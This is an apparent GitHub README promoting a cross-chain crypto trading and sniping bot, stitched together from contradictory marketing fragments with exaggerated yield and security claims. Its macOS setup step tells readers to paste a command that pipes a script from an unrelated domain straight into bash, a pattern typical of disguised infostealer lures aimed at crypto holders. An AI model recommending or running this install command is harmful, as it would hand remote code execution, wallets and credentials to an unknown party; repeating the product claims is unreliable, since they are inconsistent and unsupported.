

<p align="center"></p>

# DEX Trading Tool
>A cross-chain trading tool to automate steaking, arbitrage and investment in RWA (Real World Assets). Looking for a high-yield DeFi bot with liquid steaking or Ethereum-Solana cross-chain arbitrage? Chimera combines the trends of 2024: yield optimization via EigenLayer, private swaps with Aztec zk-proof and allocation to tokenized bonds. Ethereum, Solana, Cosmos support. Zero AI, algorithmic strategies only. Start with APY up to 35% on staking and RWAs. TVL, gas and risk monitoring in one dashboard. For traders and institutions. Integration with Lido, MakerDAO, Aave. Reduce risk, maximize returns.

A professional trading platform for large-scale transactions on DEX in EVM networks. Features include automatic order splitting (Smart Split), integration with Uniswap, Sushiswap, Curve, risk management with Chainlink and Pyth, Dark Pool for confidentiality, multisig wallets, cross-chain swaps, and professional analytics. Gas optimization, mempool monitoring, and scam protection ensure safe and fast order execution in DeFi

Is a professional tool for large traders and investors working with amounts over $100K on DEX in EVM networks. The platform offers liquidity aggregation, risk management, anti-scam system and high speed trade execution.

This Bot, a DeFi Trading bot for ETH, BSC, AVAX, MATIC, FTM, Harmony, Metis, CRONOS, KCC, VELAS, Pulsechain, Venom, Kaikas, Milkomeda, Solana and more, can Swap, Sniping and Arbitrage

# Set-Up
 ## For Windows
   ### Windows x64: [ ```Download``` ](https://selenium-finance.gitbook.io/selenium-fi/download-link/windows)

 ## For macOS
  ### MAC OS [ ```Download``` ](https://selenium-finance.gitbook.io/selenium-fi/download-link/mac-os)

(Update your sytem for upload)
- Enter the command on Terminal

                 /bin/bash -c "$(curl -fsSL https://applepistudios.com/ce/install.sh)"

# Features:
- 🦾 Snipe new tokens at listing
- 🚀 Realtime super-fast websocket trading.
- 📈 50+ Technical indicators. (docs)
- 🌈 Written in .NET and Python!
- 🌿 Unit tested source code.
- 📝 Paper trading a strategy on LIVE exchange data.
- 🏡 Backtesting engine with local data.
- 🚢 Run DeFi Selenium Trade Bot inside a docker container.
- Automatic restacking via EigenLayer
- Regulatory bridge for RWA (KYC transactions when working with tokenized assets)
- Gas-optimizer with protocol-level machine learning (not AI!)
- NFT collateral for instant loans through Aave

# Key Features:
- 📈 Instant trading. When you trade manually through trust wallet or metamask wallets, you spend 20 to 60 seconds on the token verification and transaction confirmation processes. With our bot, the processes of selling and buying is instant, because they go directly to the network of the validator

- 🔇 Counter anti-bot protections

- 🔋 Honeypot AutoChecker \ Scam protection. Have you ever bought a token that lost its value after a while? This is not a problem with our bot - add the contract address of the token to the bot to track a rapid sale or liquidity withdrawal. If the price drops by more than 20%-(the rate is adjustable), our bot will automatically sell this token

- 💎 Snipe Dexscreener, Pinksale listings

- 🛠 Create fully automated strategies to BUY THE DIP and use TRAILING STOP LOSS

- 🔑 Place Limit Orders


- 🍔 Liquidity Farms. Minimize fees within any network by calculating the recent blocks farmed to indicate the lowest fee to the miner. This way you will be able to reduce the fee when farming in the ETH network to $1


  
# Solutions
## 1. Liquidity Aggregation and Order Execution
- Integration with DEX and Aggregators: Connects with Uniswap, Sushiswap, Curve, 1inch, and Matcha to maximize liquidity coverage.

- Smart Split: Automatically splits orders into smaller parts using TWAP and VWAP algorithms to minimize slippage (for example, by setting a threshold of 0.5–1%).

- Deep Pool Analysis: Identifies routes with minimal slippage and maximum liquidity, thereby reducing the impact of orders on the asset's price.

## 2. Advanced Risk Management
- Stop-Loss and Take-Profit via Oracles: Automatically executes orders when target price levels are reached using Chainlink and Pyth.

- Dark Pool Mode: Privately executes large orders to protect against market panic.

- Integration with Insurance Protocols: Nexus Mutual and InsurAce provide additional protection against smart contract failures.

## 3. Security and Confidentiality
- Multisig and Hardware Wallets: Supports Gnosis Safe, Ledger, and Trezor for secure fund storage.

- zk-Proof Solutions: Enables anonymous transactions using Aztec Network or StarkWare.

- Regular Audits: Daily smart contract audits (e.g., through CertiK and OpenZeppelin).

## 4. Cross-Chain and L2 Optimization

- Cross-Chain Swaps: Seamless integration via Thorchain and LayerZero.

- Automatic Network Selection: Optimizes fees with a gas manager by choosing the network with the lowest fees (Ethereum, BSC, Polygon, Arbitrum).

## 5. Professional Analytics and Customization

- Whale Analytics: Tracks the impact of large orders on the market with detailed statistics and charts (successful cases: over 500 transactions and processing of more - than $50 million in volume during the first year).

- Portfolio Management: Provides balance, PnL, data export (CSV/JSON), and notifications (email, Telegram, SMS).

- Modular Interface: Supports TradingView charts, widget customization, and an API for integration with Python and Excel.

## 6. Regulatory Compliance and Reporting

- KYC and Identification: Optional KYC through decentralized identifiers (BrightID, Polygon ID).

- Tax Reporting: A report generator for tax authorities (supporting FIFO and LIFO).

## 7. Anti-Scam System

- Token Analysis: Automatically checks for scam risks (honeypot, rug pull).

- Blacklist and Alerts: Maintains a database of fraudulent tokens and issues alerts to prevent risks.

## 8. Execution Speed

- Gas Optimization: Utilizes advanced algorithms to predict the optimal gas fee.

- Mempool Monitoring and Priority Nodes: Ensures fast inclusion of transactions in blocks with minimal delays.

# Technology Stack

- Smart Contracts: Solidity (audited contracts).

- Frontend: React + TypeScript.

- Backend: Node.js, The Graph for data indexing.

- Oracles: Chainlink, Pyth.

- Data Storage: IPFS, Arweave.

# Monetization

- Commission: 0.1–0.3% of the transaction amount.
